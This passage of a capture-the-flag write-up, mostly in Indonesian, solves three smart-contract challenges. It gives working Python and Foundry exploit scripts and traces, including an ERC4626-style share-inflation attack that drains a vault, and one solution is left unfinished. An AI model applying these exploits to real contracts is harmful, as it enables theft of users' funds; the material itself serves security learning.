    tx_hash = w3.eth.send_raw_transaction(signed.raw_transaction) 
    
    w3.eth.wait_for_transaction_receipt(tx_hash)
    print(f"[+] Success: {name}")

print(f"TGE Address : {tge_addr}")
print(f"Token Address : {token_addr}\n")

# --- EXPLOIT ---
# a. Allow TGE contract to take 15 token
send_tx(token.functions.approve(tge_addr, 15), "Approve Token")

# b. Buy Tier 1
send_tx(tge.functions.buy(), "Buy Tier 1")

# c. Turn off TGE (trigger tgeActivated = true bug & Snapshot)
send_tx(setup.functions.enableTge(False), "Trigger Snapshot & tgeActivated")

# d. Turn on TGE (trigger isTgePeriod = true)
send_tx(setup.functions.enableTge(True), "Turn on TGE")

# e. Upgrade to Tier 2 & Tier 3
send_tx(tge.functions.upgrade(2), "Upgrade to Tier 2")
send_tx(tge.functions.upgrade(3), "Upgrade to Tier 3")

print("\n[🎯] Exploit Finished! You're on Tier 3 now.")
```

Berikut output exploit:

```bash
(ctf-env) lasangna@sandbox:~/ctf/bc/tge$ python3 exploit.py 
TGE Address : 0x1B0575a929C7df6905D87Dc4e2A378df779520cd
Token Address : 0xE1e10c82DB2DcfB51749b5c74426220656704d6B

[*] Send Transaction: Approve Token...
[+] Success: Approve Token
[*] Send Transaction: Buy Tier 1...
[+] Success: Buy Tier 1
[*] Send Transaction: Trigger Snapshot & tgeActivated...
[+] Success: Trigger Snapshot & tgeActivated
[*] Send Transaction: Turn on TGE...
[+] Success: Turn on TGE
[*] Send Transaction: Upgrade to Tier 2...
[+] Success: Upgrade to Tier 2
[*] Send Transaction: Upgrade to Tier 3...
[+] Success: Upgrade to Tier 3

[🎯] Exploit Finished! You're on Tier 3 now.
```

[image here]

Flag: **`C2C{just_a_warmup_from_someone_who_barely_warms_up}`**

## AI Usage

yes, i use AI to solve this challenge. I used **Gemini 3 Pro**. For the subscription, it's from Google AI Pro with Student Account.

Seperti yang sudah aku bilang sebelumnya, bahwa ini pengalaman pertamaku dalam mengerjakan blockchain challenge, jadi aku masih sangat awam mengenai istilah atupun cara kerja. Untuk itu aku menggunakan Gemini untuk memperlajari istilah dan cara kerja sistem, menganalisa vulnerabilities dan membuat script exploit

Berikut prompt yang aku gunakan:

```
there's these files
.
├── Setup.sol
├── TGE.sol
└── Token.sol

what should i analyze first
```

```
how can i get isSolved() to return true?
```

Disini aku banyak menggunakan bantuan dari Gemini, jadi metodologi yang aku gunakan untuk memverifikasi output dari Gemini adalah dengan mencoba output yang diberikan Gemini dan mengirimkan hasil outputnya sebagai feedback ke Gemini hinggga mendapatkan flag-nya.

---

# blockchain/convergence

Pertama, aku mencoba memahami alur kerja challenge dan mencari "Goal" dari challenge ini.

pada file `Setup.sol` terdapat fungsi `isSolved()` ini

```solidity
function isSolved() external view returns (bool) {
    return challenge.ascended() != address(0);
}
```

Artinya, tujuan utama disini adalah membuat vaariable `ascende` di `Challenge.sol` terisi dengan sebuah *address*. Variabel ascended ini hanya bisa diubah melalui fungsi `transcend(bytes calldata truth)`.

Agar fungsi transcend() berhasil dipanggil, player harus memenuhi beberapa syarat:
1. Player harus terdaftar sebagai seeker dengan memanggil `registerSeeker()` terlebih dahulu.
2. Payload `truth` yang player kirimkan harus sudah terdaftar (ter-hash) di variabel *setup.chronicles(seal)*.
3. Saat `truth` di-decode sebagai `(SoulFragment[], bytes32, uint32, address, address)`, parameternya harus memenuhi:
    * Parameter ke-4 (`invoker`) harus `msg.sender`.
    * Parameter ke-5 (`witness`) harus `msg.sender`.
    * Total `essence` dari semua `SoulFragment` harus ≥1000 ether.

Disini, aku meminta bantuan Gemini untuk menganalisa code dan menemukan terdapat vulnerability di fungsi `bindPact` di `Setup.sol`

Fungsi `bindPact` membatasi kekuatan essence:

```solidity
require(fragments[i].essence <= 100 ether, "Essence too powerful for pact");
```

Namun, **tidak ada batasan jumlah fragment yang boleh dikirimkan**.

Jadi, untuk mencapai total `1000 ether` yang dibutuhkan `transcend()`, kamu cukup:
1. Membuat sebuah `agreement` berisi array dari **10 buah** `SoulFragment`, di mana masing-masing memiliki `essence = 100 ether`. Totalnya akan pas menjadi 1000 ether.
2. Isi `binder` dan `witness` dengan address player (`msg.sender`).
3. Kirim payload bytes tersebut ke `Setup.bindPact()`.
4. Kirim payload bytes yang sama persis ke `Challenge.transcend()`.

> **Note**: Variabel `CONVERGENCE_REQUIREMENT = 100` tidak pernah di-cek di dalam fungsi `transcend`, jadi bisa diabaikan sebagai pengecoh).

## Exploit

Disini untuk menjalankan exploit, aku menggunakan `foundry`

Pertama, Inisialisasi foundry kemudian pindahkan file solidity yang diberikan dari challenge ke direktori `src/`

```bash
forge init exploit --empty
mv Challenge.sol Setup.sol exploit/src/
```

Selanjutnya export kredensial instance ke environment variables

```bash
export RPC_URL="..."
export PRIVKEY="0x..."
export SETUP_CONTRACT_ADDR="..."
export WALLET_ADDR="..."
```

> **Note**: Tambahkan `0x` prefix untuk `PRIVKEY` karena pada file exploit, nantinya akan menggunakan `vm.envUnit` yang mengharuskan *hex string* diawali dengan `0x`

Selanjutnya aku meminta Gemini untuk membuatkan file exploit `Solve.s.sol` ke direktori `exploit/script/`

```bash
touch exploit/script/Solve.s.sol
```

berikut file `Solve.s.sol`

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import "forge-std/Script.sol";
import "../src/Exploit.sol";

contract Solve is Script {
    function run() external {
        // Use private key and setup address from environment variables
        uint256 privKey = vm.envUint("PRIVKEY");
        address setupAddr = vm.envAddress("SETUP_CONTRACT_ADDR");

        // Start broadcast transaction to network
        vm.startBroadcast(privKey);

        // 1. Deploy Exploit contract
        Exploit exploit = new Exploit(setupAddr);
        
        // 2. Execute pwn() func untuk to run flaw logic
        exploit.pwn();

        vm.stopBroadcast();
    }
}
```

Setelah itu, eksekusi exploit:

```bash
forge script Solve.s.sol:Solve \
    --rpc-url $RPC_URL \
    --broadcast \
    -vvvv
```

Berikut output dari exploit:

```bash

```

[image here]

Flag: **`...`**

## AI Usage

yes, i use AI to solve this challenge. I used **Gemini 3 Pro**. For the subscription, it's from Google AI Pro with Student Account.

Ini pengalaman pertamaku dalam mengerjakan blockchain challenge, jadi aku masih sangat awam mengenai istilah atupun cara kerja. Untuk itu aku menggunakan Gemini untuk memperlajari cara kerja sistem, menganalisa vulnerabilities dan membuat script exploit

Berikut prompt yang aku gunakan:

```
there's these files
.
├── Challenge.sol
└── Setup.sol

what should i analyze first
```

```
how can i get isSolved() to return true?
```

```
create solver script for this challenge
```

Disini aku banyak menggunakan bantuan dari Gemini, jadi metodologi yang aku gunakan untuk memverifikasi output dari Gemini adalah dengan mencoba output yang diberikan Gemini dan mengirimkan hasil outputnya sebagai feedback ke Gemini hinggga mendapatkan flag-nya.

---

# blockchain/nexus

Pertama, aku mencoba memahami alur kerja challenge dan mencari "Goal" dari challenge ini.

pada file `Setup.sol` terdapat fungsi `isSolved()` ini

```solidity
contract Setup {
    ...
    
    uint256 public constant PLAYER_ESSENCE = 10000 ether;
    uint256 public constant FIRST_ATTUNEMENT = 6000 ether;
    uint256 public constant SECOND_ATTUNEMENT = 9000 ether;
    uint256 public constant ASCENSION_THRESHOLD = 20250 ether;

    ...
    
    function isSolved() external view returns (bool) {
        return essence.balanceOf(player) > ASCENSION_THRESHOLD;
    }
}
```

Dari analisa semua file yang diberikan, berikut beberapa informasi yang didapatkan

*  `player` memulai dengan 10,000 `ether` (dalam bentuk token `Essence`).
*  Untuk memicu `isSolved() == true`, *balance* `Essence` player harus melebihi `ASCENSION_THRESHOLD` yaitu 20,250 `ether`
*  Artinya, player harus mencari cara untuk mencuri atau melipatgandakan *balance* sebesar lebih dari **10,250** `ether`.
*  Sumber uang yang bisa dicuri ada di dalam `function conductRituals()`, di mana `Setup` mencetak **15,000** `ether` untuk dirinya sendiri dan melakukan deposit (`attune`) ke `CrystalNexus` dalam dua tahap: 6,000 dan 9,000.

Aku meminta bantuan ke Gemini untuk menganalisa files dan menemukan vulnerability di file `CrystalNexus.sol`

Sistem ini menggunakan rasio dinamis untuk menghitung berapa `crystals` (saham pool) yang kamu dapatkan saat menyetor `Essence`.

pada function `essenceTocrystal`:

```solidity
return (essenceAmount * totalCrystals) / amp;
```

Ini adalah vulnerability **ERC4626 Inflation Attack** (atau pembulatan ke nol). Karena pembagian bilangan bulat di Solidity membulatkan ke bawah, jika amp (total `Essence` di dalam *smart contract*) jauh lebih besar dari `totalCrystals`, penyerang bisa membuat nilai crystals yang didapatkan korban menjadi **0**.

Berikut adalah **exploit scenario** untuk challenge ini

1. **Inisialisasi `totalCrystals` sekecil mungkin**: 

    Panggil `nexus.attune(1)` menggunakan 1 `wei`.
(Sekarang `totalCrystals` = 1, `amp` = 1).

2. **Inflasi `amp` secukupnya:**

    Panggil `essence.transfer(address(nexus), 6000 ether)`.

    (Sekarang player masih memegang sisa ~4,000 `ether` di wallet yang aman dari potongan. Di sisi lain, `amp` kini menjadi `6000 ether + 1 wei`).

3. **Eksekusi korban:**

    Panggil `setup.conductRituals()`.
    * Deposit pertama (6,000 `ether`): `(6000 * 1) / 6000.00...01` = 0. `Setup` dapat 0 `crystals`.
    * Deposit kedua (9,000 `ether`): `(9000 * 1) / 12000.00...01` = 0. `Setup` dapat 0 `crystals`.
    * Uang 15,000 `ether` milik `Setup` masuk ke pool secara gratis. `amp` kini menjadi 21,000 `ether`.

4. **Ekstrak profit:**

    Panggil `nexus.dissolve(1, player)`.
    
    Kamu mencairkan 1 `wei` milikmu yang bernilai 21,000 `ether`. Dipotong *friction 22%*, kamu mendapatkan kembali **16,380** `ether`.
    
5. **Kalkulasi Kemenangan:**
    
    Sisa uang di *wallet* (~4,000) + Hasil curian (16,380) = **20,380** `ether`.
**(20,380 > 20,250)**.

## Exploit

Pertama, Inisialisasi foundry kemudian pindahkan file solidity yang diberikan dari challenge ke direktori `src/`

```bash
forge init exploit --empty
mv CrystalNexus.sol Essence.sol Setup.sol exploit/src/
```

Selanjutnya export kredensial instance ke environment variables

```bash
export RPC_URL="..."
export PRIVKEY="0x..."
export SETUP_CONTRACT_ADDR="..."
export WALLET_ADDR="..."
```

> **Note**: Tambahkan `0x` prefix untuk `PRIVKEY` karena pada file exploit, nantinya akan menggunakan `vm.envUnit` yang mengharuskan *hex string* diawali dengan `0x`

Selanjutnya aku meminta Gemini untuk membuatkan file `ExploitScript.s.sol` ke direktori `exploit/script/`

berikut file `ExploitScript.s.sol`

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import "forge-std/Script.sol";
import "forge-std/console.sol";
import "../src/Setup.sol";   
import "../src/CrystalNexus.sol";
import "../src/Essence.sol";

contract ExploitScript is Script {
    function run() external {
        // Load credentials from environment variables
        uint256 attackerPrivateKey = vm.envUint("PRIVKEY");
        address attackerWallet = vm.addr(attackerPrivateKey);
        address setupAddress = vm.envAddress("SETUP_CONTRACT_ADDR");

        // Initialize contract instances
        Setup targetSetup = Setup(setupAddress);
        CrystalNexus targetNexus = targetSetup.nexus();
        Essence targetEssence = targetSetup.essence();

        vm.startBroadcast(attackerPrivateKey);

        console.log("Initial Essence Balance:", targetEssence.balanceOf(attackerWallet) / 1 ether);

        // Step 1: Approve targetNexus to spend our targetEssence
        targetEssence.approve(address(targetNexus), type(uint256).max);

        // Step 2: Attune with 1 wei to get 1 wei of totalCrystals
        targetNexus.attune(1);
        console.log("Attuned 1 wei. Total Crystals:", targetNexus.totalCrystals());

        // Step 3: Inflate the amplitude by transferring 6000 ether directly to targetNexus
        targetEssence.transfer(address(targetNexus), 6000 ether);
        console.log("Transferred 6000 ether. Amplitude:", targetNexus.amplitude() / 1 ether);

        // Step 4: Trigger targetSetup to deposit 15000 ether
        targetSetup.conductRituals();
        console.log("Rituals conducted. Nexus Amplitude:", targetNexus.amplitude() / 1 ether);

        // Step 5: Dissolve our 1 wei of totalCrystals to drain the pool
        targetNexus.dissolve(1, attackerWallet);

        // Verify the win condition
        uint256 finalBalance = targetEssence.balanceOf(attackerWallet);
        console.log("Final Essence Balance:", finalBalance / 1 ether);
        
        bool isSolvedStatus = targetSetup.isSolved();
        console.log("Is Solved?", isSolvedStatus);

        vm.stopBroadcast();
    }
}
```

Setelah itu, eksekusi exploit:

```bash
forge script script/ExploitScript.s.sol:ExploitScript \
  --rpc-url $RPC_URL \
  --broadcast \
  --legacy \
  -vvvv
```

Berikut output dari exploit:

```bash
lasangna@sandbox:~/ctf/bc/nexus/exploit$ forge script script/ExploitScript.s.sol:ExploitScript \
  --rpc-url $RPC_URL \
  --broadcast \
  --legacy \
  -vvvv
[⠒] Compiling...
No files changed, compilation skipped
Traces:
  [309497] ExploitScript::run()
    ├─ [0] VM::envUint("PRIVKEY") [staticcall]
    │   └─ ← [Return] <env var value>
    ├─ [0] VM::addr(<pk>) [staticcall]
    │   └─ ← [Return] 0xEc5Bf2456e0E2A2676841FAe9953089bd4f5a48c
    ├─ [0] VM::envAddress("SETUP_CONTRACT_ADDR") [staticcall]
    │   └─ ← [Return] <env var value>
    ├─ [2726] 0x27E6EA2DBDe1944d7b91D260CA55d6823e9D1261::nexus() [staticcall]
    │   └─ ← [Return] 0x6AB68d20873C2a1ddC52a7fA31B22072016023d9
    ├─ [2770] 0x27E6EA2DBDe1944d7b91D260CA55d6823e9D1261::essence() [staticcall]
    │   └─ ← [Return] 0x751C2d53B5796E6C578A855181C61275Ce248301
    ├─ [0] VM::startBroadcast(<pk>)
    │   └─ ← [Return]
    ├─ [2824] 0x751C2d53B5796E6C578A855181C61275Ce248301::balanceOf(0xEc5Bf2456e0E2A2676841FAe9953089bd4f5a48c) [staticcall]
    │   └─ ← [Return] 10000000000000000000000 [1e22]
    ├─ [0] console::log("Initial Essence Balance:", 10000 [1e4]) [staticcall]
    │   └─ ← [Stop]
    ├─ [25078] 0x751C2d53B5796E6C578A855181C61275Ce248301::approve(0x6AB68d20873C2a1ddC52a7fA31B22072016023d9, 115792089237316195423570985008687907853269984665640564039457584007913129639935 [1.157e77])
    │   ├─ emit Approval(owner: 0xEc5Bf2456e0E2A2676841FAe9953089bd4f5a48c, spender: 0x6AB68d20873C2a1ddC52a7fA31B22072016023d9, value: 115792089237316195423570985008687907853269984665640564039457584007913129639935 [1.157e77])
    │   └─ ← [Return] true
    ├─ [103938] 0x6AB68d20873C2a1ddC52a7fA31B22072016023d9::attune(1)
    │   ├─ [2824] 0x751C2d53B5796E6C578A855181C61275Ce248301::balanceOf(0x6AB68d20873C2a1ddC52a7fA31B22072016023d9) [staticcall]
    │   │   └─ ← [Return] 0
    │   ├─ [27333] 0x751C2d53B5796E6C578A855181C61275Ce248301::transferFrom(0xEc5Bf2456e0E2A2676841FAe9953089bd4f5a48c, 0x6AB68d20873C2a1ddC52a7fA31B22072016023d9, 1)
    │   │   ├─ emit Transfer(from: 0xEc5Bf2456e0E2A2676841FAe9953089bd4f5a48c, to: 0x6AB68d20873C2a1ddC52a7fA31B22072016023d9, value: 1)
    │   │   └─ ← [Return] true
    │   ├─ emit Attunement(entity: 0xEc5Bf2456e0E2A2676841FAe9953089bd4f5a48c, essence: 1, crystals: 1)
    │   └─ ← [Return] 1
    ├─ [468] 0x6AB68d20873C2a1ddC52a7fA31B22072016023d9::totalCrystals() [staticcall]
    │   └─ ← [Return] 1
    ├─ [0] console::log("Attuned 1 wei. Total Crystals:", 1) [staticcall]
    │   └─ ← [Stop]
    ├─ [3829] 0x751C2d53B5796E6C578A855181C61275Ce248301::transfer(0x6AB68d20873C2a1ddC52a7fA31B22072016023d9, 6000000000000000000000 [6e21])
    │   ├─ emit Transfer(from: 0xEc5Bf2456e0E2A2676841FAe9953089bd4f5a48c, to: 0x6AB68d20873C2a1ddC52a7fA31B22072016023d9, value: 6000000000000000000000 [6e21])
    │   └─ ← [Return] true
    ├─ [2149] 0x6AB68d20873C2a1ddC52a7fA31B22072016023d9::amplitude() [staticcall]
    │   ├─ [824] 0x751C2d53B5796E6C578A855181C61275Ce248301::balanceOf(0x6AB68d20873C2a1ddC52a7fA31B22072016023d9) [staticcall]
    │   │   └─ ← [Return] 6000000000000000000001 [6e21]
    │   └─ ← [Return] 6000000000000000000001 [6e21]
    ├─ [0] console::log("Transferred 6000 ether. Amplitude:", 6000) [staticcall]
    │   └─ ← [Stop]
    ├─ [116474] 0x27E6EA2DBDe1944d7b91D260CA55d6823e9D1261::conductRituals()
    │   ├─ [32404] 0x751C2d53B5796E6C578A855181C61275Ce248301::mint(0x27E6EA2DBDe1944d7b91D260CA55d6823e9D1261, 15000000000000000000000 [1.5e22])
    │   │   ├─ emit Transfer(from: 0x0000000000000000000000000000000000000000, to: 0x27E6EA2DBDe1944d7b91D260CA55d6823e9D1261, value: 15000000000000000000000 [1.5e22])
    │   │   └─ ← [Stop]
    │   ├─ [25078] 0x751C2d53B5796E6C578A855181C61275Ce248301::approve(0x6AB68d20873C2a1ddC52a7fA31B22072016023d9, 115792089237316195423570985008687907853269984665640564039457584007913129639935 [1.157e77])
    │   │   ├─ emit Approval(owner: 0x27E6EA2DBDe1944d7b91D260CA55d6823e9D1261, spender: 0x6AB68d20873C2a1ddC52a7fA31B22072016023d9, value: 115792089237316195423570985008687907853269984665640564039457584007913129639935 [1.157e77])
    │   │   └─ ← [Return] true
    │   ├─ [36889] 0x6AB68d20873C2a1ddC52a7fA31B22072016023d9::attune(6000000000000000000000 [6e21])
    │   │   ├─ [824] 0x751C2d53B5796E6C578A855181C61275Ce248301::balanceOf(0x6AB68d20873C2a1ddC52a7fA31B22072016023d9) [staticcall]
    │   │   │   └─ ← [Return] 6000000000000000000001 [6e21]
    │   │   ├─ [4633] 0x751C2d53B5796E6C578A855181C61275Ce248301::transferFrom(0x27E6EA2DBDe1944d7b91D260CA55d6823e9D1261, 0x6AB68d20873C2a1ddC52a7fA31B22072016023d9, 6000000000000000000000 [6e21])
    │   │   │   ├─ emit Transfer(from: 0x27E6EA2DBDe1944d7b91D260CA55d6823e9D1261, to: 0x6AB68d20873C2a1ddC52a7fA31B22072016023d9, value: 6000000000000000000000 [6e21])
    │   │   │   └─ ← [Return] true
    │   │   ├─ [212] 0x27E6EA2DBDe1944d7b91D260CA55d6823e9D1261::onCrystalReceived(0x27E6EA2DBDe1944d7b91D260CA55d6823e9D1261, 6000000000000000000000 [6e21], 0)
    │   │   │   └─ ← [Revert] EvmError: Revert
    │   │   ├─ emit Attunement(entity: 0x27E6EA2DBDe1944d7b91D260CA55d6823e9D1261, essence: 6000000000000000000000 [6e21], crystals: 0)
    │   │   └─ ← [Return] 0
    │   ├─ [12989] 0x6AB68d20873C2a1ddC52a7fA31B22072016023d9::attune(9000000000000000000000 [9e21])
    │   │   ├─ [824] 0x751C2d53B5796E6C578A855181C61275Ce248301::balanceOf(0x6AB68d20873C2a1ddC52a7fA31B22072016023d9) [staticcall]
    │   │   │   └─ ← [Return] 12000000000000000000001 [1.2e22]
    │   │   ├─ [4633] 0x751C2d53B5796E6C578A855181C61275Ce248301::transferFrom(0x27E6EA2DBDe1944d7b91D260CA55d6823e9D1261, 0x6AB68d20873C2a1ddC52a7fA31B22072016023d9, 9000000000000000000000 [9e21])
    │   │   │   ├─ emit Transfer(from: 0x27E6EA2DBDe1944d7b91D260CA55d6823e9D1261, to: 0x6AB68d20873C2a1ddC52a7fA31B22072016023d9, value: 9000000000000000000000 [9e21])
    │   │   │   └─ ← [Return] true
    │   │   ├─ [212] 0x27E6EA2DBDe1944d7b91D260CA55d6823e9D1261::onCrystalReceived(0x27E6EA2DBDe1944d7b91D260CA55d6823e9D1261, 9000000000000000000000 [9e21], 0)
    │   │   │   └─ ← [Revert] EvmError: Revert
    │   │   ├─ emit Attunement(entity: 0x27E6EA2DBDe1944d7b91D260CA55d6823e9D1261, essence: 9000000000000000000000 [9e21], crystals: 0)
    │   │   └─ ← [Return] 0
    │   └─ ← [Stop]
    ├─ [2149] 0x6AB68d20873C2a1ddC52a7fA31B22072016023d9::amplitude() [staticcall]
    │   ├─ [824] 0x751C2d53B5796E6C578A855181C61275Ce248301::balanceOf(0x6AB68d20873C2a1ddC52a7fA31B22072016023d9) [staticcall]
    │   │   └─ ← [Return] 21000000000000000000001 [2.1e22]
    │   └─ ← [Return] 21000000000000000000001 [2.1e22]
    ├─ [0] console::log("Rituals conducted. Nexus Amplitude:", 21000 [2.1e4]) [staticcall]
    │   └─ ← [Stop]
    ├─ [13762] 0x6AB68d20873C2a1ddC52a7fA31B22072016023d9::dissolve(1, 0xEc5Bf2456e0E2A2676841FAe9953089bd4f5a48c)
    │   ├─ [824] 0x751C2d53B5796E6C578A855181C61275Ce248301::balanceOf(0x6AB68d20873C2a1ddC52a7fA31B22072016023d9) [staticcall]
    │   │   └─ ← [Return] 21000000000000000000001 [2.1e22]
    │   ├─ [3829] 0x751C2d53B5796E6C578A855181C61275Ce248301::transfer(0xEc5Bf2456e0E2A2676841FAe9953089bd4f5a48c, 16380000000000000000001 [1.638e22])
    │   │   ├─ emit Transfer(from: 0x6AB68d20873C2a1ddC52a7fA31B22072016023d9, to: 0xEc5Bf2456e0E2A2676841FAe9953089bd4f5a48c, value: 16380000000000000000001 [1.638e22])
    │   │   └─ ← [Return] true
    │   ├─ emit Dissolution(entity: 0xEc5Bf2456e0E2A2676841FAe9953089bd4f5a48c, crystals: 1, essence: 16380000000000000000001 [1.638e22])
    │   └─ ← [Return] 16380000000000000000001 [1.638e22]
    ├─ [824] 0x751C2d53B5796E6C578A855181C61275Ce248301::balanceOf(0xEc5Bf2456e0E2A2676841FAe9953089bd4f5a48c) [staticcall]
    │   └─ ← [Return] 20380000000000000000000 [2.038e22]
    ├─ [0] console::log("Final Essence Balance:", 20380 [2.038e4]) [staticcall]
    │   └─ ← [Stop]
    ├─ [2124] 0x27E6EA2DBDe1944d7b91D260CA55d6823e9D1261::isSolved() [staticcall]
    │   ├─ [824] 0x751C2d53B5796E6C578A855181C61275Ce248301::balanceOf(0xEc5Bf2456e0E2A2676841FAe9953089bd4f5a48c) [staticcall]
    │   │   └─ ← [Return] 20380000000000000000000 [2.038e22]
    │   └─ ← [Return] true
    ├─ [0] console::log("Is Solved?", true) [staticcall]
    │   └─ ← [Stop]
    ├─ [0] VM::stopBroadcast()
    │   └─ ← [Return]
    └─ ← [Stop]


Script ran successfully.

== Logs ==
  Initial Essence Balance: 10000
  Attuned 1 wei. Total Crystals: 1
  Transferred 6000 ether. Amplitude: 6000
  Rituals conducted. Nexus Amplitude: 21000
  Final Essence Balance: 20380
  Is Solved? true

## Setting up 1 EVM.
==========================
Simulated On-chain Traces:

  [25078] 0x751C2d53B5796E6C578A855181C61275Ce248301::approve(0x6AB68d20873C2a1ddC52a7fA31B22072016023d9, 115792089237316195423570985008687907853269984665640564039457584007913129639935 [1.157e77])
    ├─ emit Approval(owner: 0xEc5Bf2456e0E2A2676841FAe9953089bd4f5a48c, spender: 0x6AB68d20873C2a1ddC52a7fA31B22072016023d9, value: 115792089237316195423570985008687907853269984665640564039457584007913129639935 [1.157e77])
    └─ ← [Return] true

  [113238] 0x6AB68d20873C2a1ddC52a7fA31B22072016023d9::attune(1)
    ├─ [2824] 0x751C2d53B5796E6C578A855181C61275Ce248301::balanceOf(0x6AB68d20873C2a1ddC52a7fA31B22072016023d9) [staticcall]
    │   └─ ← [Return] 0
    ├─ [34133] 0x751C2d53B5796E6C578A855181C61275Ce248301::transferFrom(0xEc5Bf2456e0E2A2676841FAe9953089bd4f5a48c, 0x6AB68d20873C2a1ddC52a7fA31B22072016023d9, 1)
    │   ├─ emit Transfer(from: 0xEc5Bf2456e0E2A2676841FAe9953089bd4f5a48c, to: 0x6AB68d20873C2a1ddC52a7fA31B22072016023d9, value: 1)
    │   └─ ← [Return] true
    ├─ emit Attunement(entity: 0xEc5Bf2456e0E2A2676841FAe9953089bd4f5a48c, essence: 1, crystals: 1)
    └─ ← [Return] 1

  [13429] 0x751C2d53B5796E6C578A855181C61275Ce248301::transfer(0x6AB68d20873C2a1ddC52a7fA31B22072016023d9, 6000000000000000000000 [6e21])
    ├─ emit Transfer(from: 0xEc5Bf2456e0E2A2676841FAe9953089bd4f5a48c, to: 0x6AB68d20873C2a1ddC52a7fA31B22072016023d9, value: 6000000000000000000000 [6e21])
    └─ ← [Return] true

  [134274] 0x27E6EA2DBDe1944d7b91D260CA55d6823e9D1261::conductRituals()
    ├─ [32404] 0x751C2d53B5796E6C578A855181C61275Ce248301::mint(0x27E6EA2DBDe1944d7b91D260CA55d6823e9D1261, 15000000000000000000000 [1.5e22])
    │   ├─ emit Transfer(from: 0x0000000000000000000000000000000000000000, to: 0x27E6EA2DBDe1944d7b91D260CA55d6823e9D1261, value: 15000000000000000000000 [1.5e22])
    │   └─ ← [Stop]
    ├─ [25078] 0x751C2d53B5796E6C578A855181C61275Ce248301::approve(0x6AB68d20873C2a1ddC52a7fA31B22072016023d9, 115792089237316195423570985008687907853269984665640564039457584007913129639935 [1.157e77])
    │   ├─ emit Approval(owner: 0x27E6EA2DBDe1944d7b91D260CA55d6823e9D1261, spender: 0x6AB68d20873C2a1ddC52a7fA31B22072016023d9, value: 115792089237316195423570985008687907853269984665640564039457584007913129639935 [1.157e77])
    │   └─ ← [Return] true
    ├─ [45689] 0x6AB68d20873C2a1ddC52a7fA31B22072016023d9::attune(6000000000000000000000 [6e21])
    │   ├─ [2824] 0x751C2d53B5796E6C578A855181C61275Ce248301::balanceOf(0x6AB68d20873C2a1ddC52a7fA31B22072016023d9) [staticcall]
    │   │   └─ ← [Return] 6000000000000000000001 [6e21]
    │   ├─ [7433] 0x751C2d53B5796E6C578A855181C61275Ce248301::transferFrom(0x27E6EA2DBDe1944d7b91D260CA55d6823e9D1261, 0x6AB68d20873C2a1ddC52a7fA31B22072016023d9, 6000000000000000000000 [6e21])
    │   │   ├─ emit Transfer(from: 0x27E6EA2DBDe1944d7b91D260CA55d6823e9D1261, to: 0x6AB68d20873C2a1ddC52a7fA31B22072016023d9, value: 6000000000000000000000 [6e21])
    │   │   └─ ← [Return] true
    │   ├─ [212] 0x27E6EA2DBDe1944d7b91D260CA55d6823e9D1261::onCrystalReceived(0x27E6EA2DBDe1944d7b91D260CA55d6823e9D1261, 6000000000000000000000 [6e21], 0)
    │   │   └─ ← [Revert] EvmError: Revert
    │   ├─ emit Attunement(entity: 0x27E6EA2DBDe1944d7b91D260CA55d6823e9D1261, essence: 6000000000000000000000 [6e21], crystals: 0)
    │   └─ ← [Return] 0
    ├─ [12989] 0x6AB68d20873C2a1ddC52a7fA31B22072016023d9::attune(9000000000000000000000 [9e21])
    │   ├─ [824] 0x751C2d53B5796E6C578A855181C61275Ce248301::balanceOf(0x6AB68d20873C2a1ddC52a7fA31B22072016023d9) [staticcall]
    │   │   └─ ← [Return] 12000000000000000000001 [1.2e22]
    │   ├─ [4633] 0x751C2d53B5796E6C578A855181C61275Ce248301::transferFrom(0x27E6EA2DBDe1944d7b91D260CA55d6823e9D1261, 0x6AB68d20873C2a1ddC52a7fA31B22072016023d9, 9000000000000000000000 [9e21])
    │   │   ├─ emit Transfer(from: 0x27E6EA2DBDe1944d7b91D260CA55d6823e9D1261, to: 0x6AB68d20873C2a1ddC52a7fA31B22072016023d9, value: 9000000000000000000000 [9e21])
    │   │   └─ ← [Return] true
    │   ├─ [212] 0x27E6EA2DBDe1944d7b91D260CA55d6823e9D1261::onCrystalReceived(0x27E6EA2DBDe1944d7b91D260CA55d6823e9D1261, 9000000000000000000000 [9e21], 0)
    │   │   └─ ← [Revert] EvmError: Revert
    │   ├─ emit Attunement(entity: 0x27E6EA2DBDe1944d7b91D260CA55d6823e9D1261, essence: 9000000000000000000000 [9e21], crystals: 0)
    │   └─ ← [Return] 0
    └─ ← [Stop]

  [37462] 0x6AB68d20873C2a1ddC52a7fA31B22072016023d9::dissolve(1, 0xEc5Bf2456e0E2A2676841FAe9953089bd4f5a48c)
    ├─ [2824] 0x751C2d53B5796E6C578A855181C61275Ce248301::balanceOf(0x6AB68d20873C2a1ddC52a7fA31B22072016023d9) [staticcall]
    │   └─ ← [Return] 21000000000000000000001 [2.1e22]
    ├─ [11429] 0x751C2d53B5796E6C578A855181C61275Ce248301::transfer(0xEc5Bf2456e0E2A2676841FAe9953089bd4f5a48c, 16380000000000000000001 [1.638e22])
    │   ├─ emit Transfer(from: 0x6AB68d20873C2a1ddC52a7fA31B22072016023d9, to: 0xEc5Bf2456e0E2A2676841FAe9953089bd4f5a48c, value: 16380000000000000000001 [1.638e22])
    │   └─ ← [Return] true
    ├─ emit Dissolution(entity: 0xEc5Bf2456e0E2A2676841FAe9953089bd4f5a48c, crystals: 1, essence: 16380000000000000000001 [1.638e22])
    └─ ← [Return] 16380000000000000000001 [1.638e22]


==========================

Chain 31337

Estimated gas price: 1 gwei

Estimated total gas used for script: 569397

Estimated amount required: 0.000569397 ETH

==========================

##### anvil-hardhat
✅  [Success] Hash: 0x6ae4ad477c378c38045a21d960f079066a52255d9d6b869a6da4b10e665bcfb4
Block: 4
Paid: 0.000035085 ETH (35085 gas * 1 gwei)


##### anvil-hardhat
✅  [Success] Hash: 0x6cfc74465b9885b8e150b3906abd408117a560046fe4ab4a2646c38570fa3754
Block: 6
Paid: 0.000049434 ETH (49434 gas * 1 gwei)


##### anvil-hardhat
✅  [Success] Hash: 0x80bd353244fbd719444c0678581968b67fbb1c9206310ec6243927441a7299ed
Block: 3
Paid: 0.000134442 ETH (134442 gas * 1 gwei)


##### anvil-hardhat
✅  [Success] Hash: 0x0561e33bcc11b6904b4f41bafd63810186ad949968b9368e2483cfd2eb2b5f32
Block: 2
Paid: 0.000047022 ETH (47022 gas * 1 gwei)


##### anvil-hardhat
✅  [Success] Hash: 0x3294392cdcd000674889d6d9a72e80ca1411462e06b7535700e97e9fbea3fc83
Block: 5
